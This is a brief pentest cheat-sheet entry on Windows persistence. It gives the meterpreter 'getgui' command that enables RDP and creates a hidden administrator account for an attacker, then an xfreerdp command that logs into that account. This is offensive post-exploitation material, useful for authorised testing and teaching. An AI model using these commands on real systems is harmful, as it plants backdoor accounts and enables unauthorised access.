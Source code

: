 ## Windows Persistence

### $ msf> getgui

**maintain access by RDP**  
We will be creating a user and adding that user to the Administrators group. All this can
be done using the “getgui“ meterpreter command.

The ‘getgui’ command makes the below changes to the target machine:

- Enable RDP service if it’s disabled
- Creates new user for an attacker
- Hide user from Windows Login screen
- Adding created user to "Remote Desktop Users" and "Administrators" groups

```bash
meterpreter>run getgui -e -u alice -p hack_123321
```

```bash
# loowanie przez RDP do utworzonego konta
xfreerdp /u:alice /p:hack_123321 /v:10.0.23.139
y [Accept the certificate]
```
